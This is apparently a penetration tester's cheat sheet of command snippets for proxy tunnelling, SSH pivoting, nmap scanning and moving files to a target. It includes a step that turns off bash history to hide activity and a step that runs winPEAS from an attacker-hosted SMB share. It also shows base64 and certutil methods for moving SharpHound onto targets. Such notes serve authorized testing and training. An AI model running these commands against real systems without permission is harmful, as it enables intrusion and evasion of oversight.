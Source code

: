## Find the meaning of unknown error codes with certutil:
`certutil -error <error_id>`

## Access HTTPS proxy with proxychains:
Proxychains supports SOCKS4, SOCKS5 and HTTP but not HTTPS.  
Using socat to create an HTTPS tunnel between a local port and a remote proxy:  
`socat TCP-LISTEN:19999,bind=127.0.0.1,fork,reuseaddr OPENSSL:proxy.yolo.com:8000,verify=0`  
(verify=0 to bypass certificate errors, for example self-signed client certificate)  

Then in `/etc/proxychains.conf` :
`http 127.0.0.1 19999`

From <https://github.com/rofl0r/proxychains-ng/issues/337>  
  
## SSH Pivoting/Tunneling 
- Use `sshuttle` : https://github.com/sshuttle/sshuttle  
- Use `ssh` + `proxychains` :  
  `ssh -D 9999 john@10.10.110.50`
  Then `proxychains <command>`   
  (with the config `socks4 127.0.0.1 9999` in the `proxychains4.conf` file)  
   
 ## Leave a command running when the SSH session is disconnected with `nohup`:  
`nohup nmap -Pn -A -p- -oA results_nmap 192.168.210.10-20 &exit`   
   
## Temporarily turn off bash history:  
`unset HISTFILE`  
`set +o history`   
  
## File transfer techniques: 
### Using SMB:  
`impacket-smbserver share .`  
Then `//10.10.14.108/share/winPEASx64.exe searchall cmd`    
  
### Using python:  
`python2 -m SimpleHTTPServer <PORT>`  
`python3 -m http.server <PORT>`  
  
### Using a compiled binary for Windows:  
`pip install pyinstaller`  
`pyinstaller web.py --onefile`  
  
`web.exe <PORT>`  
  
### Using base64 encoding:  
Attacker-side (Linux). Newlines can be trimmed on Linux using `sed` or `tr`.     
`base64 -w 0 <FILE> | xclip -selection clipboard`  
or `cat SharpHound.exe | base64 | tr -d '\n' > b64Sharphound.txt`  
    
Attacker-side (Windows). Newlines can be trimmed on Linux using `sed` or `tr`.  
`certutil -encode <FILE> tmp_file_base64.txt`  
`sed ':a;N;$!ba;s/\n//g' <FILE>`  
  
Target-side - Linux  
`echo '<BASE64_FILECONTENT>' | base64 --decode > <OUTPUT_FILE>`  
  
Target-side - Windows  
`echo <BASE64_FILECONTENT> > tmp_file_base64.txt`  
`certutil -decode tmp_file_base64.txt <OUTPUT_FILE>`  
`del tmp_file_base64.txt`  
*(Several techniques are from <https://notes.qazeer.io/general/file_transfer>)*    
  

